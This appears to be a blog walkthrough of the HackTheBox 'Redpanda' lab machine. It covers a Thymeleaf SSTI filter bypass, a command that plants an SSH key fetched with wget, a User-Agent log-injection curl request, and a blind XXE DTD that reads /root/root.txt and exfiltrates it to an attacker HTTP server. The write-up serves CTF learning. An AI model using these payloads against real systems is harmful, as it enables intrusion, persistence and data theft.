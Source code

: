 ```yaml
---
title: "HackTheBox: \"Redpanda\" Walkthrough"
date: 2022-07-10T15:10:02+02:00
tags: ['hackthebox', 'ctf']
categories: ["HackTheBox Walkthrough"]
slug: "hackthebox-redpanda-walkthrough"
draft: true
---
```


This machine is listed as an "easy" machine - but I found it to be harder than some
"medium" difficulty machines. The used techniques (SSTI, XXE) were not something special,
but they were not completely straight-forward.<!--more-->

# Enumeration

A port scan reveals an open SSH and HTTP server - the latter on port 8080.
Opening the webpage on port 8080, we are greeted with, well, a red panda
and a search mask. Just hinting enter displays a page which shows, among other things, the following text:

> Greg is a hacker. Watch out for his injection attacks!

Furthermore, we note the title of the website:

> Red Panda Search | Made with Spring Boot

Those are pretty big clues.

# User

Using [sqlmap](https://sqlmap.org/), we can get an idea if some application is vulnerable to SQL injection.
In this case, the result was negative, so let's move on to another injection technique: SSTI.
We put an expression in the search field: `${1+1}` (we assume the template engine used is Thymeleaf, because
it's quite popular in the Java world):

> You searched for: Error occured: banned characters

Ok, so it's not *that* easy. The `$` character and a few more are filtered.
Luckily, there are [more ways to achieve SSTI](https://www.acunetix.com/blog/web-security-zone/exploiting-ssti-in-thymeleaf/)
and someone made an [SSTI payload builder](https://github.com/VikasVarshney/ssti-payload).
We can use the payload builder and replace the `$` with an `*`, which is not filered by the application.

Thus, the payload to run the `id` command is:
```
*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(
    T(java.lang.Character).toString(105).concat(T(java.lang.Character).toString(100))).getInputStream())}
```

Which returns:

> You searched for: uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)

We generate the following payloads and send them via the search form, after which
we will have SSH access:
```
wget http://10.10.14.32:8000/pubkey -O /home/woodenk/.ssh/authorized_keys
chmod 600 /home/woodenk/.ssh/authorized_keys
chmod 700 /home/woodenk/.ssh
```

*Note:* Later we will be able to see the sources for the application - the part responsible for the SSTI is (see *expression preprocessing*):
```html
<h2 th:unless="${query} == Null" th:text="${'You searched for: '} + @{__${query}__}" class="searched"></h2>
```

# Root

Running `pspy` quickly reveals a pretty interesting cronjob:
```
2022/07/09 21:26:01 CMD: UID=0    PID=64413  | java -jar /opt/credit-score/LogParser/final/target/final-1.0-jar-with-dependencies.jar
2022/07/09 21:26:01 CMD: UID=0    PID=64412  | /bin/sh /root/run_credits.sh
2022/07/09 21:26:01 CMD: UID=0    PID=64411  | /bin/sh -c /root/run_credits.sh
```

We can find the full source for this JAR file (otherwise it would be easy to decompile it),
and it does the following:
1. Read `/opt/panda_search/redpanda.log` line by line
2. Split each line at `||`, extract the fields (in this order): status_code, ip, user_agent, uri
3. Use the value of `uri` to open this image: `String fullpath = "/opt/panda_search/src/main/resources/static" + uri;`
4. Try to read the "Artist" metadata field
5. Assemble another filename: `String xmlPath = "/credits/" + artist + "_creds.xml";`
6. Open this file using SAXBuilder, read it, increase some counters, write it back

What can we do now?
1. We can use the `User-Agent` HTTP header to overwrite the value for `uri`
2. Thus, we can make the application read an arbitrary image file
3. We can modify the metadata of this image so the application reads/writes an XML file of our choice

The first idea was that maybe the [library used to read the metadata](https://github.com/drewnoakes/metadata-extractor)
has some vulnerability. I already finished another machine were it was possible to get RCE via image metadata fields,
but after some research it was clear that this library has no known exploit.

Before running `pspy`, I also ran LinPEAS which brought my attention to an MySQL server.
Grepping through the sources, we can find the credentials:
```java
DriverManager.getConnection("jdbc:mysql://localhost:3306/red_panda", "woodenk", "RedPandazRule");
```
But the machine has the latest version of MySQL server running, again with no
known exploits. Looking through the databases and tables, we find nothing
of interest - just some data the web application is using.

So the **only** vector remaining is the XML parsing. When talking about XML, [XML External Entity (XXE)](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_%28XXE%29_Processing) should come to mind.
I've not done XXE before, so it was not immediately clear how this could help us.
We can have the application (which runs as root) read *any* file, but then what?
How can we *exfiltrate* this data?

Are we still on the right track? Maybe there was a recent exploit for SAXBuilder, which
could give us an easy RCE? After a short research we could rule this out. Maybe XXE
can do something more powerful?

## Using XXE to exfiltrate secrets

Turns out: It can! ["Exploiting blind XXE to exfiltrate data out-of-band"](https://portswigger.net/web-security/xxe/blind)
sounds exactly like what we need, although it requires another step (and at this point I no longer think this machine should be rated "easy").
Let's assemble everything we need:

Use `exiftool` to modify the "Artist" field and upload this to the Redpanda machine
into the home directory of the user:
```
exiftool -artist='../home/woodenk/test' greg.jpg
```

Create a custom `.dtd` file (on our machine):
```xml
<!ENTITY % file SYSTEM "file:///root/root.txt">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.14.32:8000/?x=%file;'>">
%eval;
%exfiltrate;
```

Create a custom `.xml` file on the Redpanda machine (the filename must end with
`_creds.xml`, so with the "Artist" field we set above the application will
then read `/credits/../home/woodenk/test_creds.xml`):
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://10.10.14.32:8000/pwn.dtd"> %xxe;]>
```

Send a request which will spoof a log-entry so the "credit collector" picks
up our modified image file:
```
curl 'http://redpanda.htb:8080/img/greg.jpg' -H 'User-Agent: .jpg||/../../../../../../../../home/woodenk/greg.jpg'
```

Once the cronjob runs, we will see the following log entries on a HTTP server
started on our machine:
```sh
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.129.195.213 - - [09/Jul/2022 19:18:13] "GET /pwn.dtd HTTP/1.1" 200 -
10.129.195.213 - - [09/Jul/2022 19:18:13] "GET /?x=<flag> HTTP/1.1" 200 -
```

We exfiltrated the flag!